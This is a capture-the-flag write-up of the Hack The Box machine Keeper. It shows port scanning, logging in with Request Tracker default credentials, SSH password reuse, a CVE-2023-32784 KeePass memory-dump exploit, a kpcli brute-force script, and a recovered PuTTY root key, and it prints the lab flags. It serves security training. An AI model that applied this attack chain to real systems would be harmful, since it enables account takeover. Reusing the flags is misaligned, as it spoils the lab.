







# <big> Keeper </big> <small> by k0rrib4n </small>

## htbexplorer report

|  Name  |  IP Address  | Operating System | Points | Rating | User Owns | Root Owns | Retired | Release Date | Retired Date | Free Lab | ID  |
| :----: | :----------: | :--------------: | :----: | :----: | :-------: | :-------: | :-----: | :----------: | :----------: | :------: | :-: |
| Keeper | 10.10.11.227 |      Linux       |   20   |  3.9   |   23249   |   17282   |   Yes   |  2023-08-12  |  2024-02-10  |   Yes    | 556 |

## Summary

1. Scan ports -> 22,80
2. Enumerate port 80 -> RequestTracker 4.4.4 login
3. Default credentials on RT -> `root:password` for port 80
4. List users and consult `Lise Nørgaard` -> `lnorgaard:Welcome2023!`
5. Credentials reuse on ssh -> `user shell` as lnorgaard
6. Download `RT30000.zip` -> root's keepass memdump and kdbx
7. Exploit `CVE-2023-32784` on dmp file -> partial password `●ldgr●d med fl●de`
8. Investigate possible passwords and bruteforce kpcli -> keepass credential `rødgrød med fløde`
9. Read `keeper.htb` entry -> `root:F4><3K0nd!` and `Putty RSA key`
10. Connect to `root@10.10.11.227` through Putty -> `root shell`

## Enumeration

### OS

|  TTL   |   OS    |
| :----: | :-----: |
| +- 64  |  Linux  |
| +- 128 | Windows |

As we can see in the code snippet below, the operating system is Linux.

```bash
┌──(k0rrib4n㉿k0rrib4n)-[~/HTB/Machines/Completed/Keeper]
└─$ ping 10.10.11.227
PING 10.10.11.227 (10.10.11.227) 56(84) bytes of data.
64 bytes from 10.10.11.227: icmp_seq=1 ttl=63 time=44.4 ms
64 bytes from 10.10.11.227: icmp_seq=2 ttl=63 time=39.8 ms
```

### Nmap port scan

First, we will scan the host for open ports.

```bash
┌──(k0rrib4n㉿k0rrib4n)-[~/HTB/Machines/Completed/Keeper]
└─$ nmap -p- -sS --min-rate 5000 -v -Pn -n -oG Enum/allPorts 10.10.11.227
```

With the utility `extractPorts` we list and copy the open ports:

```bash
┌──(k0rrib4n㉿k0rrib4n)-[~/HTB/Machines/Completed/Keeper]
└─$ extractPorts Enum/allPorts

[*] Extracting information...

        [*] IP Address: 10.10.11.227
        [*] Open ports: 22,80

[*] Ports copied to clipboard

```

Run a detailed scan on the open ports. Note that we modified our `/etc/hosts` file to add the domain `tickets.keeper.htb` found during web enumeration. The same scan against ip and domain returns different results due to the NSE web scripts:

```bash
┌──(k0rrib4n㉿k0rrib4n)-[~/HTB/Machines/Completed/Keeper]
└─$ nmap -p22,80 -sVC -Pn -n -oN Enum/services tickets.keeper.htb

Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-17 11:32 CET
Nmap scan report for tickets.keeper.htb (10.10.11.227)
Host is up (0.039s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Login
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.89 seconds
```

#### Final nmap report

|     Port      | Service |         Version         |            Extra             |
| :-----------: | :-----: | :---------------------: | :--------------------------: |
| 22/tcp (ssh)  | OpenSSH | 8.9p1 Ubuntu 3ubuntu0.3 | (Ubuntu Linux; protocol 2.0) |
| 80/tcp (http) |  nginx  |         1.18.0          |              -               |

### Port 80 enumeration

#### Technology scan

```bash
┌──(k0rrib4n㉿k0rrib4n)-[~/HTB/Machines/Completed/Keeper]
└─$ whatweb tickets.keeper.htb
http://tickets.keeper.htb [200 OK] Cookies[RT_SID_tickets.keeper.htb.80], Country[RESERVED][ZZ], Email[sales@bestpractical.com], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], HttpOnly[RT_SID_tickets.keeper.htb.80], IP[10.10.11.227], PasswordField[pass], Request-Tracker[4.4.4+dfsg-2ubuntu1], Script[text/javascript], Title[Login], X-Frame-Options[DENY], X-UA-Compatible[IE=edge], nginx[1.18.0]

```

Toguether with `wappalyzer` extension:
| Tecnology | Version | Detail |
| :-: | :-: | :-: |
| Nginx | 1.18.0 | Ubuntu |
|Request-Tracker| 4.4.4+dfsg-2ubuntu1|-|
|Cookies| RT_SID_tickets.keeper.htb.80|-|

#### Web content fuzzing

Next, we start fuzzing and inspecting this service:

> Note: The target url is a domain name instead of an IP because while manual browsing we disovered a link to `http://tickets.keeper.htb/rt`.

```bash
┌──(k0rrib4n㉿k0rrib4n)-[~/HTB/Machines/Completed/Keeper]
└─$ wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 --hc 404,302 --hh 4236,4253,4235,4252,4247 "http://tickets.keeper.htb/rt/FUZZ"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://tickets.keeper.htb/rt/FUZZ
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000501:   403        0 L      0 W        0 Ch        "l"
000000388:   200        111 L    182 W      2309 Ch     "m"
```

Using the right domain name, we discover an unauthorized url at `http://tickets.keeper.htb/rt/l` and an old login form at `http://tickets.keeper.htb/rt/m`.

#### Manual enumeration on http://tickets.keeper.htb/rt/m

Inspecting the source code of the named url, we discover that it is an alternative login form for mobile devices. Extrapolating this information we could think the `m` char stands for mobile and the `l` char stands for the main login, hidden under the index.html.

### Request Tracker

Up to this point we gathered all the information we can from the target. The most interesting lead we got is the Request Tracker service, under version `4.4.4+dfsg-2ubuntu1`, discovered in the main login page and in the whatweb results.

After looking up this version for vulnerabilities in pages as [exploitdb](https://www.exploit-db.com/search?text=request+tracker) and using `searchsploit`, we didn't find any useful vulnerabilites:

```bash
┌──(k0rrib4n㉿k0rrib4n)-[~/HTB/Machines/Completed/Keeper]
└─$ searchsploit request tracker 4.4.4
Exploits: No Results
Shellcodes: No Results
```

Nevertheless, as it is an easy machine, we can expect it to have bad security configurations as default passwords, which we found at this [post](https://forum.bestpractical.com/t/default-user-and-password/14992) while browsing for vulnerabilites: `root:password`.

Trying those credentials granted us access to the RT page as the administrator:


From this point, we have access to all the user and admin features of the service, including user listing, which shows the following registered users:
| ID | Name | Real Name | Email Address | Status |
|:-:|:-:|:-:|:-:|:-:|
| 27 |lnorgaard |Lise Nørgaard |lnorgaard@keeper.htb |Enabled|
|14 |root |Enoch Root |root@localhost |Enabled|

And, as administrators, we can access to the app's profile of the `lnorgaard` user:


Noticing the `Comments about this user` section, we discovered the initial password of the named user, which probably is the same. To test it, we try to login as that user and succeed, but can't find any more valuable information across the website.

### Credentials reuse (User shell)

Following the principle of `Credential reusing`, we can assume that a user whose password is Welcome2023 may reuse that password for other services or even for a system user.

This information toguether with the port 22, discovered while port scanning, made us try the credentials `lnorgaard:Welcome2023!` with the command:

```bash
┌──(k0rrib4n㉿k0rrib4n)-[~/HTB/Machines/Completed/Keeper]
└─$ ssh lnorgaard@10.10.11.227
lnorgaard@10.10.11.227's password: #hidden: Welcome2023!
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have mail.
Last login: Sat Feb 17 11:15:21 2024 from 10.10.14.46
lnorgaard@keeper:~$ whoami
lnorgaard
lnorgaard@keeper:~$ ls
RT30000.zip  user.txt
```

## Privilege escalation

The first things we must try when escalating privileges are:

```bash
lnorgaard@keeper:~$ sudo -l
[sudo] password for lnorgaard:
Sorry, user lnorgaard may not run sudo on keeper.
lnorgaard@keeper:~$ cat /etc/sudoers
cat: /etc/sudoers: Permission denied
```

### Keepass masterkey extraction

When we connected to the target machine as the user `lnorgaard` we found the file `RT30000.zip`, which matches the only ticket open at the RT web with the ID 30000:

As we can read in the mail history, the zip is a crashdump of the keepass program, owned by the root user, that he stored at its home directory `/home/lnorgard/RT30000.zip`.

With this information, we peek the content of the zip and discover the following files:

The file `KeePassDumpFull.dmp` was expected, but the file `passcodes.kdbx` is database file for the application `Keepass` which probably contains sensitive information as the root password.

The counterpart is that there are no versions of keepass mentioned in the conversation between the users Lise and Root, so our best choice is to google about keepass vulnerabilities related to memory dumps. Doing so, we found the [CVE-2023-32784](https://nvd.nist.gov/vuln/detail/CVE-2023-32784), which allows to recover the cleartext master password from a memory dump of a keepass2 execution, except for the first character, for versions up to 2.54.

We don't know which version of Keepass2 is the user running, but we know that the latest version is 2.56, so this is a quite recent vulnerability and is worth a try. To do so, we download the python exploit [keepass-dump-masterkey](https://github.com/matro7sh/keepass-dump-masterkey) that provides a python code to exploit the named CVE and a bash code to perform bruteforce over `kpcli`. This way, our only task is to extract the password, generate a suitable wordlist and perform bruteforce with the combinations.

First, we download the zip file to our local machine and extract it with:

```bash
┌──(k0rrib4n㉿k0rrib4n)-[~/HTB/Machines/In_Progress/Keeper]
└─$ scp lnorgaard@10.10.11.227:/home/lnorgaard/RT30000.zip Results
lnorgaard@10.10.11.227's password:
RT30000.zip                             100%   83MB   5.8MB/s   00:14
┌──(k0rrib4n㉿k0rrib4n)-[~/HTB/Machines/In_Progress/Keeper]
└─$ unzip Results/RT30000.zip -d Results
Archive:  Results/RT30000.zip
  inflating: Results/KeePassDumpFull.dmp
 extracting: Results/passcodes.kdbx
```

Next, we download the exploit using git and run the python script over the dmp file:

```bash
┌──(k0rrib4n㉿k0rrib4n)-[~/…/Machines/In_Progress/Keeper/Exploits]
└─$ git clone git@github.com:matro7sh/keepass-dump-masterkey.git
Clonando en 'keepass-dump-masterkey'...
remote: Enumerating objects: 9, done.
remote: Counting objects: 100% (9/9), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 9 (delta 0), reused 6 (delta 0), pack-reused 0
Recibiendo objetos: 100% (9/9), 32.52 KiB | 489.00 KiB/s, listo.

┌──(k0rrib4n㉿k0rrib4n)-[~/…/Machines/In_Progress/Keeper/Exploits]
└─$ cd keepass-dump-masterkey

┌──(k0rrib4n㉿k0rrib4n)-[~/…/In_Progress/Keeper/Exploits/keepass-dump-masterkey]
└─$ python poc.py -d ../../Results/KeePassDumpFull.dmp
2024-02-17 13:13:42,184 [.] [main] Opened ../../Results/KeePassDumpFull.dmp
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```

I'm not sure why the recovered password has up to 3 unrecovered characters, while all the other examples where of the type `●assword`. I assume it is because all the information related to the `lnorgaard` user is in Danish language, and special characters bug the exploit.
Anyway, as we are presented multiple passwords, the first filter wer are going to apply is the common sense: Someone who uses `Welcome2023!` is probably not going to use complicated passwords with special characters, so we copy the most simple-looking password, `●ldgr●d med fl●de` and google it:

As we can see, we found a traditional Danish recipe called `rødgrød med fløde`, which makes as a possible password. To test it, we simply generate a wordlist with all the combinations of the name:

```bash
┌──(k0rrib4n㉿k0rrib4n)-[~/…/Machines/In_Progress/Keeper/Exploits]
└─$ cat StringPermutor.py

# Python code to print all permutations
# with respect to cases

import sys

# function to generate permutations

def permute(ip, op):

    #  base case
    if len(ip) == 0:
        print(f"{op}")
        return

    #  pick lower and uppercase
    ch = ip[0].lower()
    ch2 = ip[0].upper()
    ip = ip[1:]
    permute(ip, op+ch)
    permute(ip, op+ch2)

# driver code


def main():
    if len(sys.argv) < 2:
        print(f"[!] Not enough arguments. Usage: {sys.argv[0]} STRING")
        return
    ip = sys.argv[1]
    permute(ip, "")


main()

# This Code was Contributed by Vivek Maddeshiya and modified by k0rrib4n

┌──(k0rrib4n㉿k0rrib4n)-[~/…/Machines/In_Progress/Keeper/Exploits]
└─$ python StringPermutor.py "rødgrød med fløde" > wordlist.txt

┌──(k0rrib4n㉿k0rrib4n)-[~/…/Machines/In_Progress/Keeper/Exploits]
└─$ head wordlist.txt
rødgrød med fløde
rødgrød med flødE
rødgrød med fløDe
rødgrød med fløDE
rødgrød med flØde
rødgrød med flØdE
rødgrød med flØDe
rødgrød med flØDE
rødgrød med fLøde
rødgrød med fLødE
```

Finally, we can run the bruteforce script and try all the combinations:

```bash
┌──(k0rrib4n㉿k0rrib4n)-[~/…/Machines/In_Progress/Keeper/Exploits]
└─$ cat keepass-pwn.sh
#!/bin/sh
# Usage: ./keepass-pwn.sh Database.kdbx wordlist.txt (wordlist with 2 char)
while read i
do
    echo "Using password: \"$i\""
    echo "$i" | kpcli --kdb=$1 && exit 0
done < $2

┌──(k0rrib4n㉿k0rrib4n)-[~/…/Machines/In_Progress/Keeper/Exploits]
└─$ ./keepass-pwn.sh ../Results/passcodes.kdbx wordlist.txt
Using password: "rødgrød med fløde"
Provide the master password: *************************

KeePass CLI (kpcli) v3.8.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/>
```

This time, the first combination of the brute-force attack was sucessful and we gained access to the keepass database. After some browsing over it, we found two items:

```bash
kpcli:/passcodes/Network> ls
=== Entries ===
0. keeper.htb (Ticketing Server)
1. Ticketing System
kpcli:/passcodes/Network> show -f 0

Title: keeper.htb (Ticketing Server)
Uname: root
 Pass: F4><3K0nd!
  URL:
Notes: PuTTY-User-Key-File-3: ssh-rsa
       Encryption: none
       Comment: rsa-key-20230519
       Public-Lines: 6
       AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
       8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
       EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
       Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
       FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
       LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
       Private-Lines: 14
       AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
       oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
       kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
       f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
       VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
       UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
       OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
       in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
       SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
       09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
       xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
       AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
       AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
       NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
       Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```

After reading the first entry, `0`, with the `-f` flag to reveal the password, we obtained the credentials `root:F4><3K0nd!`.

### Putty Private Key (Root shell)

As we found a password for the user root, we try to connect directly via ssh using it, but do not succeed. Instead, we must pay attention to the `Notes` section of the keepass entry, which reveals a private rsa key for the putty software.

So, we copied the contents of the Notes section and pasted it into the file `putty-rsa`, created a new session on the putty software and configured it to connect to `root@10.10.11.227` using the key file `putty-rsa`. After hitting `Open` we obtain a putty shell as follows:



We obtained a `root shell` on Keeper.

## CVE

### [CVE-2023-32784](https://nvd.nist.gov/vuln/detail/CVE-2023-32784)

In KeePass 2.x before 2.54, it is possible to recover the cleartext master password from a memory dump, even when a workspace is locked or no longer running. The memory dump can be a KeePass process dump, swap file (pagefile.sys), hibernation file (hiberfil.sys), or RAM dump of the entire system. The first character cannot be recovered. In 2.54, there is different API usage and/or random string insertion for mitigation.

## Machine flags

| Type |               Flag               | Blood |    Date    |
| :--: | :------------------------------: | :---: | :--------: |
| User | 3ac407362333c0c7114d8b744ac517cb |  No   | 16-02-2024 |
| Root | f2b5b3e0d14bf1d96de35ed14c784bb7 |  No   | 16-02-2024 |

## References

- [Keeper HTB](https://app.hackthebox.com/machines/Keeper)
- [RequestTracker at exploit-db](https://www.exploit-db.com/search?text=request+tracker)
- [RequestTracker defuault credentials](https://forum.bestpractical.com/t/default-user-and-password/14992)
- [CVE-2023-32784](https://nvd.nist.gov/vuln/detail/CVE-2023-32784)
- [keepass-dump-masterkey (CVE-2023-32784 exploit)](https://github.com/matro7sh/keepass-dump-masterkey)
- [Video Walkthrough (ES)](https://youtu.be/nm03BlVH8Qk)
